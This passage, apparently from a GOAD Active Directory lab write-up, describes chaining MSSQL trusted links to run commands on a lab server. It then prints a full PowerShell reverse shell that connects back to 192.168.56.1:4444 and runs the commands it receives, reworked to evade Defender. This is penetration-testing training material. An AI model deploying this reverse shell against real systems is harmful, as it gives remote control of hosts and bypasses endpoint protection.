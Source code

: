 ![mssql_trusted_links_exec.png](/assets/blog/GOAD/mssql_trusted_links_exec.png)

- We got a command injection on braavos.essos.local as essos\sql_svc

- I have done the modifications on mssqlclient.py to be able to chain trusted_links. From this we can continue to another trusted link, etc...

- Example :

![mssql_trusted_links_exec_chained.png](/assets/blog/GOAD/mssql_trusted_links_exec_chained.png)


## Command execution to shell

- We got command execution on castelblack and also on braavos. But now we want a shell to interact with the server.
- To get a shell we can use a basic Powershell webshell (There is one available on the [arsenal](https://github.com/Orange-Cyberdefense/arsenal) commands cheatsheet project. This is another of my projects that i will need to improve when i get the time, but this script do not bypass defender anymore, so let's write some modifications):

```powershell
$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);
$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
```
